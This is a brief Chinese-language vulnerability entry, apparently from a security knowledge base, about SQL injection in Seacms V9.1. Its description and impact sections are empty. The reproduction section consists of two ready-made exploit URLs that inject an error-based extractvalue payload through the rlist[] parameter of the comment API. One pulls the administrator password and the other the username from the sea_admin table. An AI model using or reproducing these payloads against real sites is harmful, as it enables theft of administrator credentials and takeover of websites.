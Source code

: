 ```yaml
---
title: Seacms V9.1 版本SQL注入
id: zhfly3117
---
```


# Seacms V9.1 版本SQL注入

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

> 获取管理员表中第一个用户的密码

```
http://0-sec.org/comment/api/index.php?gid=1&page=2&rlist[]=@`%27`,%20extractvalue(1,%20concat_ws(0x20,%200x5c,(select%20(password)from%20sea_admin))),@`%27` 
```

> 获取管理员表中第一个用户的账号

```
http://0-sec.org/comment/api/index.php?gid=1&page=2&rlist[]=@`%27`,%20extractvalue(1,%20concat_ws(0x20,%200x5c,(select%20(name)from%20sea_admin))),@`%27` 
```